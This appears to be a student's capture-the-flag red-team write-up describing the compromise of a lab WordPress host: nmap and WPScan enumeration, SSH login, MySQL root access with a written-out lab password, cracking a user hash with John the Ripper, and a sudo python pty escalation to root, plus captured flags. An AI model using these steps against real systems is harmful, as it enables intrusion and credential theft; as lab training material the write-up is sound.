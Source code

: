 ﻿Joaquin Serrano

# Red Team: Summary of Operations

### Table of Contents:
   * Exposed Services
   * Critical Vulnerabilities
   * Exploitation

### Exposed Services:
- Kali Linux Command:
Ping Scan only: $ nmap -sP 192.168.1.0/24
![](https://github.com/y2keno/final_project/blob/30062c908e5644872dddccd38346283d0b5f18b4/Final_Red_Team/images/image7.png)
 
Nmap scan results for each machine reveal the below services and OS details:

- Kali Linux Command: 
Find the version of the service running on port 192.168.1.110:
$ nmap -sV 192.168.1.110
![](https://github.com/y2keno/final_project/blob/df913b8917446432e94c1c6375b6100aa8389038/Final_Red_Team/images/image8.png)

This scan identifies the services below as potential points of entry:

- Target 1 -Michael
   * Port 22/TCP Open SSH
   * Port 80/TCP Open HTTP
   * Port 111/TCP Open rcpbind
   * Port 139/TCP Open netbios-ssn
   * Port 445/TCP Open netbios-ssn

### Critical Vulnerabilities: 
The following vulnerabilities were identified on each target:

- Target 1
   * Unsalted User Password Hash (WordPress Database)
   * Misconfiguration of User Privileges/Privilege Escalation
   * Weak User Password
   * User Enumeration (WordPress site)

### Exploitation
   * dirb returns the enumerated directories found within the target URL
![](https://github.com/y2keno/final_project/blob/2b18992a598038337b3eea06eb8e762ca11ae9a6/Final_Red_Team/images/image1.png)
![](https://github.com/y2keno/final_project/blob/9daf1cc299e38973b8392e18e94f21011da9d766/Final_Red_Team/images/image10.png)

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:
![](https://github.com/y2keno/final_project/blob/dbc3bb6c5a0d8ced95df9e13162e2d82bcd9a675/Final_Red_Team/images/image22.png)

- Target 1
- flag1.txt: b9bbcb33e11b80be759c4e844


### Exploit Used
- WPScan to enumerate users of the Target 1 WordPress site
   - SSH using Michael’s credentials, Flag 1 was found
   - Flag 1 was found in /var/www in the HTML folder


- Kali Linux Command: 
$ wpscan -u http://192.168.1.110/wordpress -eu 
![](https://github.com/y2keno/final_project/blob/f2315f50a2a9bd73db6ce996acaf697740dae695/Final_Red_Team/images/image2.png)
![](https://github.com/y2keno/final_project/blob/eeff044c9c10ecd69f6574bca247e958df05c134/Final_Red_Team/images/image16.png)
![](https://github.com/y2keno/final_project/blob/638eec6e538de727c61a25a0b6898746f70bac65/Final_Red_Team/images/image17.png)

- flag2.txt: fc3fd58dcdad9ab23faca6e9a36e581c


### Exploit used:
   * Continuation of exploit from Target 1. 
   * SSH using Michael’s credentials, Flag 2 was found. 
   * Flag 2 was found in /var/www next to the HTML folder that held Flag 1. 

- Kali Linux Commands: 
   * $ ssh michael@192.168.1.110
   * pwd
   * cd var/www
   * ls -l
   * cat flag2.txt

![](https://github.com/y2keno/final_project/blob/3ffd601fef819d7e5dce7e0f70b736d1a4ba00e1/Final_Red_Team/images/image12.png)
  
- Flag 3: afc01ab56b50591e7dccf93122770cd2

### Exploit used: 
   * Continuation of Exploit from Target 1. 

- Capturing Flag 3: 
   * Gaining My SQL database access
   * Flag 3 was found in wp_posts table in the WordPress database
![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image15.png)  

- Kali Linux Command: 
   - $ mysql -u root -p
   - Password: R@v3nSecurity  Host: 127.0.0.1
   - Or $ mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1 
   - show databases;
   - use wordpress; 
   - show tables;
   - Select * from wp_users; 

![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image4.png)
![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image14.png)
![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image21.png)
![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image3.png)
![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image12.png)

### Exploit used:
   - Unsalted password hash and privilege escalation with Python
   - Capturing flag 4: Secure user credentials from database, utilize John the Ripper to crack hash and use python to gain root privileges. 
   - Utilizing the info from capturing flag 3. The Select * from wp_users command will reveal the username and password hashes for Michael and Steven utilizing MySQL.
   - Copied the username and password hash for Steven. Saved the file and named it  hash.txt
   ![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image13.png)

- Kali Linux Commands: 
   * mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1
   * show databases; 
   * use wordpress;
   * show tables; 
   * select * from wp_users;

![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image3.png)

### Exploit Used: 
- Utilized John the Ripper to crack the password hash from the hash.txt file.
- Kali Linux command: 
   * $ john hash
![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image19.png)
  
* Steven Password cracked: pink84
![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image6.png)
  
* SSH using Steven’s credentials, Flag 4 was found.
* ssh steven@192.168.1.110 
* pw:pink84
* sudo -l
* sudo python -c ‘import pty;pty.spawn(“/bin/bash”);’
![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image9.png)
  
* Use python to gain root privileges
![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image20.png)
  
* cd root
* ls
* cat flag4.txt

![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image18.png)

### Captured Flag4: 715dea6c055b9fe33354932f2941ce